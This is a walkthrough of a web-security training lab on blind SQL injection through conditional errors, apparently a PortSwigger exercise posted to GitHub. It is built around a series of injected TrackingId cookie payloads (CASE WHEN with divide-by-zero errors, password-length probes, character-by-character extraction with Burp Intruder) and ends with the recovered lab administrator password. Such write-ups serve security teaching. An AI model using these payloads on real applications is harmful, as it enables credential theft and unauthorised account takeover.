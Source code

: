 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

> Modify the TrackingId cookie, appending a single quotation mark to it, 

>> TrackingId=jrtdI9CBPX0Fm3Ob'

![image](https://github.com/udayk01/Web-Security/assets/52235763/30fe2658-f5d6-45ec-9e7b-0b4d10cb5b81)

> Changing it to two quotation marks:

>> TrackingId=jrtdI9CBPX0Fm3Ob''

> Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.

![image](https://github.com/udayk01/Web-Security/assets/52235763/9aadc875-b254-4885-ab6c-2cc1aa73c371)

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT '')||'

> In this case, notice that the query still appears to be invalid. This may be due to the database type - hence we try specifying a predictable table name in the query.

![image](https://github.com/udayk01/Web-Security/assets/52235763/ad5a88f4-abf0-4a47-b6cc-1444a6ff4079)

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT '' FROM dual)||'

> As we can no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

![image](https://github.com/udayk01/Web-Security/assets/52235763/d5f8e569-f336-49b4-9495-c1fe38244e19)

> Now that we've crafted what appears to be a valid query, we can try submitting an invalid query while still preserving valid SQL syntax. 

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT '' FROM not-a-real-table)||'

> This time, an error is returned. This behavior strongly suggests that our injection is being processed as a SQL query by the back-end.

![image](https://github.com/udayk01/Web-Security/assets/52235763/93486835-6f70-4920-aac3-8650de684365)

> As long as we make sure to always inject syntactically valid SQL queries, we can use this error response to infer key information about the database.

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT '' FROM users WHERE ROWNUM = 1)||'

> As this query does not return an error, we can infer that this table does exist. Note that the WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break our concatenation.

![image](https://github.com/udayk01/Web-Security/assets/52235763/ee6bb118-e417-4f53-a3f1-5bf5c8aa36c8)

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

> We can verify that an error message is received.

![image](https://github.com/udayk01/Web-Security/assets/52235763/d1d7c310-2de6-4cc4-8bfe-3d3369be8991)

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

> We can verify that the error disappears. This demonstrates that we can trigger an error conditionally on the truth of a specific condition. The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true

![image](https://github.com/udayk01/Web-Security/assets/52235763/9bb1279c-3bb0-478a-8f9f-61c7319fffe8)

> We can use this behavior to test whether specific entries exist in a table. For example, we use the following query to check whether the username administrator exists:

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

> We can verify that the condition is true (the error is received), confirming that there is a user called administrator.

![image](https://github.com/udayk01/Web-Security/assets/52235763/aeb7cfee-de54-40c6-b588-b1097fa5c531)

> The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

> This condition should be true, confirming that the password is greater than 1 character in length.

![image](https://github.com/udayk01/Web-Security/assets/52235763/cbe8a6bd-f154-4096-93fa-e65d0c9156a3)

> Send a series of follow-up values to test different password lengths. Send:

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

![image](https://github.com/udayk01/Web-Security/assets/52235763/0a7b3735-588b-475a-8655-fab0bd71a4a7)

>> TrackingId=jrtdI9CBPX0Fm3Ob'||(SELECT CASE WHEN LENGTH(password)>25 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
 
> And so on. You can do this manually using Burp Repeater, since the length is likely to be short. We understand that the password is less than 25 character in length. 

![image](https://github.com/udayk01/Web-Security/assets/52235763/c657c4c3-afb6-4fae-9868-61ea222a84dd)

> After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

![image](https://github.com/udayk01/Web-Security/assets/52235763/158c0458-0a95-42d4-84a5-ed42a29476da)

![image](https://github.com/udayk01/Web-Security/assets/52235763/3f80ad28-92bf-4414-9c9d-4634ff7febd6)

![image](https://github.com/udayk01/Web-Security/assets/52235763/4c21873a-d4e9-4cb5-b0ab-3eda5cbbec95)

![image](https://github.com/udayk01/Web-Security/assets/52235763/2bc26502-e900-4e81-ad04-1ffa1aff9fed)

> the password characters are the ones that return the status code 500.

![image](https://github.com/udayk01/Web-Security/assets/52235763/0464c414-729a-4aaf-bf22-ac61efd6c3cb)

![image](https://github.com/udayk01/Web-Security/assets/52235763/d19844f9-7416-4f77-8364-38bd1c5bc66f)

> The password of the user administrator is - 32tkd1i2yh35svv4ctcv

> We can see that with the retrieved password we logged in to the administrator account.

![image](https://github.com/udayk01/Web-Security/assets/52235763/0e049f8c-86d7-4afe-b702-637134471bdb)
















